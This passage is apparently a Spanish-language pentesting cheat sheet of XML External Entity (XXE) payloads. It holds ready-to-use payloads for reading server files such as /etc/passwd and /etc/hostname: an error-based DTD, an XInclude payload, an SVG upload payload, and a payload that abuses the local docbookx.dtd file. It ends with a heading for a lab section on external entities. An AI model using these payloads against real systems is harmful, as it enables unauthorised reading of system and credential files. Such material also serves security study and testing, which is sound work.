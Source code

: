 - DTD para leer archivos en los errores de la respuesta

```dtd
<!ENTITY % myFile SYSTEM "file:///etc/passwd">
<!ENTITY % first "<!ENTITY &#x25; second SYSTEM 'file:///test/%myFile;'>">

%first;
%second;
```

- XInclude (Usar en el caso de no poder usar un DTD)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

- XXE en archivos svg

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/hostname">]>

<svg version="1.1" xmlns="http://www.w3.org/2000/svg" width="200px" height="200px">
<text font-size="15" x="8" y="28">&myFile;</text>
</svg>
```

- Abuso del archivo interno /usr/share/yelp/dtd/docbookx.dtd

```dtd
<!DOCTYPE foo [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; myFile SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; first "<!ENTITY &#x26;#x25; second SYSTEM &#x27;file:///test/&#x25;myFile;&#x27;>">
&#x25;first;
&#x25;second;
'>
%local;
]>
```
## XXE para leer archivos con entidades externas || Exploiting XXE using external entities to retrieve files

![](/img2/Pasted%20image%2020250814214842.png)

